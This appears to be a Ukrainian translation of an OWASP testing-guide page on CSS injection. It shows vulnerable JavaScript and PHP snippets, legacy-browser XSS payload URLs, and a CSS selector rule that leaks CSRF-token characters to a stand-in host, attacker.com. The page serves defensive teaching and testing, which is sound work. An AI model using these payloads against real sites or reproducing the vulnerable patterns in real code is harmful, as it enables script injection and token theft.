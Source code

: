 # Тестування CSS-ін'єкцій

## Огляд

Уразливість ін'єкції CSS охоплює можливість вводити довільний код CSS у контексті довіреного вебсайту, який відображається в браузері жертви. Вплив цього типу вразливості залежить від корисного навантаження CSS. Він може призвести до XSS або витоку даних.

Ця вразливість виникає, коли застосунок дає змогу CSS, що надається користувачем, втручатися в наявні таблиці стилів застосунку. Ін'єкція коду в контексті CSS може надати зловмиснику можливість за певних умов виконувати JavaScript або витягувати чутливі дані за допомогою селекторів CSS і функцій, здатних формувати HTTP-запити. Як правило, надання користувачам можливості налаштовувати сторінки за допомогою своїх CSS-файлів пов'язане зі значним ризиком.

У наступному коді JavaScript показано можливий вразливий скрипт, у якому зловмисник може контролювати `location.hash` (джерело), який веде до функції `cssText` (приймач). Цей приклад може призвести до XSS на основі DOM у старих версіях браузерів, для отримання додаткової інформації див. [пам'ятка щодо запобігання XSS на основі DOM](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).

```html
<a id="a1">Click me</a>
<script>
    if (location.hash.slice(1)) {
    document.getElementById("a1").style.cssText = "color: " + location.hash.slice(1);
    }
</script>
```

Зловмисник може націлитися на жертву, попросивши її відвідати такі URL-адреси:

- `www.victim.com/#red;-o-link:'<javascript:alert(1)>';-o-link-source:current;` (Opera \[8,12\])
- `www.victim.com/#red;-:expression(alert(URL=1));` (IE 7/8)

Така сама вразливість може з'явитися і в разі відображеного XSS, наприклад, у наступному коді на PHP:

```php
<style>
p {
    color: <?php echo $_GET['color']; ?>;
    text-align: center;
}
</style>
```

Подальші сценарії атак передбачають можливість вилучення даних за допомогою прийняття чистих CSS-правил. Такі атаки можуть проводитися через CSS-селектори, що призводить до витоку даних, наприклад, CSRF-токенів.

Ось приклад коду, який намагається вибрати введення з `name`, що збігається з `csrf_token`, і `value`, що починається на `a`. Використовуючи атаку методом перебору для визначення `value` атрибута, можна здійснити атаку, яка передає значення домену зловмисника, наприклад, намагаючись встановити фонове зображення на обраному елементі введення.

```html
<style>
input[name=csrf_token][value=^a] {
    background-image: url(http://attacker.com/log?a);
}
</style>
```

Інші атаки з використанням запитаного контенту, такого як CSS, висвітлюються у відеоролику [Mario Heiderich «Got Your Nose»](https://www.youtube.com/watch?v=FIQvAaZj_HA) на Youtube.

## Завдання тестування

- Знайти точки ін'єкції CSS.
- Оцінити вплив ін'єкції.

## Як тестувати

Необхідно проаналізувати код, щоб визначити, чи дозволено користувачеві вводити контент у контексті CSS. Зокрема, слід перевірити спосіб, у який вебсайт повертає правила CSS на основі вхідних даних.

Нижче наведено базовий приклад:

```html
<a id="a1">Click me</a>
<b>Hi</b>
<script>
    $("a").click(function(){
        $("b").attr("style","color: " + location.hash.slice(1));
    });
</script>
```

Вищенаведений код містить джерело `location.hash`, контрольоване зловмисником, яке може вставлятися безпосередньо в атрибут `style` HTML-елемента. Як згадувалося вище, це може призвести до різних результатів залежно від використовуваного браузера та наданого корисного навантаження.

На наступних сторінках наведено приклади вразливостей, пов'язаних із CSS-ін'єкціями:

- [Password "cracker" via CSS and HTML5](http://html5sec.org/invalid/?length=25)
- [CSS attribute reading](http://eaea.sirdarckcat.net/cssar/v2/)
- [JavaScript based attacks using `CSSStyleDeclaration` with unescaped input](https://github.com/wisec/domxsswiki/wiki/CSS-Text-sink)

Додаткові ресурси OWASP щодо запобігання ін'єкціям CSS див. у [пам'ятці щодо захисту каскадних таблиць стилів](https://cheatsheetseries.owasp.org/cheatsheets/Securing_Cascading_Style_Sheets_Cheat_Sheet.html).

